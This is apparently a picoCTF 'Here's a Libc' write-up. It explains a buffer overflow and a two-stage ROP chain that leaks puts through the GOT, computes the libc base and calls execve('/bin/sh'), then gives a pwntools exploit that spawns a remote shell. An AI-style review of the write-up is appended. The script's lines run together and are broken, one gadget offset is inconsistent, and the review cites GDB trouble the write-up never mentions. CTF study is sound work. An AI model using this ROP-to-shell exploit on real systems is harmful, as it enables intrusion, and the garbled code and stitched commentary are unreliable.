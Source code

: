 ## Table of Contents

          - [Notes](#Notes)
- [Exploitation: General Idea](#exploitation:\general\idea)
- [Exploitation: Implementation](#exploitation:\implementation)

#GOT #ROP #reversengineering #ctf #picoctf #libc #reverse
- Get general information about the binary file and the security measures employed by the program itself

###### Notes
- `64bit ELF file`
- `NX` (No Execute bit set)
- 
By looking at the code in Ghidra it was very easy to spot a buffer overflow of unlimited length.

![](https://miro.medium.com/v2/resize:fit:528/1*5aZqMSGI3q__oFMQZzaesw.png)


- Possible to see if the program takes as input a string of unlimited length and stores it inside a buffer of 112 bytes.


# Exploitation: General Idea

By exploiting the buffer overflow spotted previously it is possible to obtain full control of the instruction pointer, but there something missing: the address of Libc where to jump to. However, there is a _puts_ in the code that prints what is stored at the address passed as argument.

From the considerations done above I came up with the following idea:

1. Create a [ROP chain](https://en.wikipedia.org/wiki/Return-oriented_programming), by using local gadgets, in order to pass to the _puts_ function an address of the [GOT table](https://ctf101.org/binary-exploitation/what-is-the-got/) (this is possible because the binary is not PIE, therefore the addresses of the GOT table entries are static and visible from Ghidra)
2. Jump to the _puts_ function (actually, it is safer to jump to the _puts_ in the Libc by using the [PLT table](https://ctf101.org/binary-exploitation/what-is-the-got/))
3. Print the (dynamic) address of the Libc’s _puts_ function
4. Force the program to return to the first instruction of the _main_ function, in order to execute the program once again and therefore in order to exploit the buffer overflow one more time
5. Create a new ROP chain in order to jump to the _execve_ function, in the Libc, therefore forcing the program to spawn a new program: _/bin/sh_

# Exploitation: Implementation

In order to implement the idea explained before it was necessary to make few steps.

The first thing to do was to find the right padding. By not having the possibility of executing the file locally I was forced to do some trial and error remotely by sending strings of different length until the program crashed.

Once I found the the right padding I retrieved some useful addresses in the binary:

- The address of the gadget _pop rdi, ret;_
- The address of the entry in the GOT table corresponding to the function _puts_
- The address of the entry in the PLT table corresponding to the function _puts_
- The address of the of the first instruction of the _main_ function

In particular, in order to retrieve the address of the gadget I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget), while, for the other addresses I used Python.  
By having all these addresses I was able to construct the first ROP chain, and therefore, to make the program print the address of the _puts_ function in the Libc.
Then, by having the address of the Libc’_s puts_ function, I was able to calculate the base address of the Libc:
`Libc_base = Leaked_address - Static_offset`
where the static offset is the address of the _puts_ function in the Libc, assuming the Libc base address is 0x0000000000000000 (I found it using Python on the copy of the Libc used remotely, provided by the challenge).
Then, by having the Libc base address, I was able to find the addresses of:
- the _execve_ function in the Libc
- the string “_/bin/sh\x00”_ inside the Libc
- a null pointer inside the Libc

**Finally**, in order to create the second *ROP* chain, I missed two gadgets

- _pop rsi, ret;_ (I found it locally)
- _pop rdx, ret;_ (I found it in the Libc)

- These gadgets where found using [ROPgadget](https://en.wikipedia.org/wiki/Return-oriented_programming).
```python
#!/bin/python3
from pwn import *
HOST = 'mercury.picoctf.net'  
PORT = <insert_your_port>  
EXE  = './vuln'if args.EXPLOIT:  
    r = remote(HOST, PORT)  
    libc = ELF('./libc.so.6')exe = ELF(EXE)pop_rdi = 0x400913  
pop_rsi = 0x023e8a  
pop_rdx = 0x001b96  
offset  = libc.symbols['puts']r.recvuntil(b'sErVeR!\n')payload  = b'A'*136  
payload += p64(pop_rdi)  
payload += p64(exe.got['puts'])  
payload += p64(exe.plt['puts'])  
payload += p64(exe.symbols['main'])r.sendline(payload)r.recvline()leak = r.recv(6)+b'\x00\x00'  
leak = u64(leak)libc.address = leak - offset  
binsh        = next(libc.search(b'/bin/sh\x00'))  
system       = libc.symbols['system']  
nullptr      = next(libc.search(b'\x00'*8))  
execve       = libc.symbols['execve']payload  = b'A'*136  
payload += p64(pop_rdi)  
payload += p64(binsh)  
payload += p64(libc.address + pop_rsi)  
payload += p64(nullptr)  
payload += p64(libc.address + pop_rdx)  
payload += p64(nullptr)  
payload += p64(execve)r.sendline(payload)r.interactive()

```
Once the script executed, I was able to obtain a shell attached to the remote server and therefore I was able to extract the flag:

![](https://miro.medium.com/v2/resize:fit:875/1*GlBaWZnVc2eD3TV4IOq-sg.png)

Your writeup on the "Here's a Libc" challenge from PicoCTF is comprehensive and well-structured, detailing both the problem-solving approach and the technical execution. To make it more detailed in the context of the challenge and jargon, let's delve deeper into some key areas:

1. **Challenge Context**: This type of challenge, categorized under binary exploitation or 'pwn', is designed to test your ability to exploit vulnerabilities in binary programs. The use of a buffer overflow to control the instruction pointer (IP) is a classic technique in such challenges.

2. **Binary Analysis Tools**: You mentioned using Ghidra for static analysis but faced issues with GDB for dynamic analysis. It's important to note that these tools have different utilities: Ghidra is excellent for disassembling and decompiling binaries to understand their structure and logic, while GDB is essential for debugging and observing runtime behaviors. The issue with running the binary locally could be due to several factors, such as incompatible library versions, missing dependencies, or system-specific protections.

3. **Security Measures**: The presence of the NX (No eXecute) bit as a security measure implies that the stack is non-executable, which is why you correctly deduced the need to use Return-Oriented Programming (ROP) rather than directly injecting and executing shellcode.

4. **Exploitation Technique**: Your exploitation strategy is a classic ROP chain approach. Here's a breakdown:
   - **Buffer Overflow**: Overwriting the stack to control the IP.
   - **Leakage of Libc Address**: By using a `puts` function call to leak an address in the Global Offset Table (GOT), you effectively bypassed Address Space Layout Randomization (ASLR), a common security measure.
   - **Calculating Libc Base Address**: This is a crucial step for reliably calculating the addresses of other Libc functions and gadgets.
   - **Second ROP Chain**: Crafting this to invoke `execve` with `/bin/sh` leads to shell access.

5. **Gadgets**: The gadgets you found, like `pop rdi; ret`, are essential for ROP chain construction. They help in setting up the correct registers before calling functions like `execve`.

6. **Scripting and Remote Execution**: Your Python script utilizing the `pwntools` library demonstrates a clear understanding of how to automate binary exploitation. It's well-structured to first leak the necessary addresses, calculate the Libc base, and then execute the second ROP chain.

7. **Improvement Suggestion**: While your approach is sound, it's always beneficial to include error handling in the script, especially when dealing with network interactions and binary exploitation. This can help in understanding where the exploit might be failing in case it doesn't work as expected.

In conclusion, your writeup is already quite detailed, demonstrating a strong grasp of binary exploitation concepts and practical application. The additional insights provided here should help in further contextualizing and enriching your writeup, especially for readers who are new to the field or to this specific type of challenge.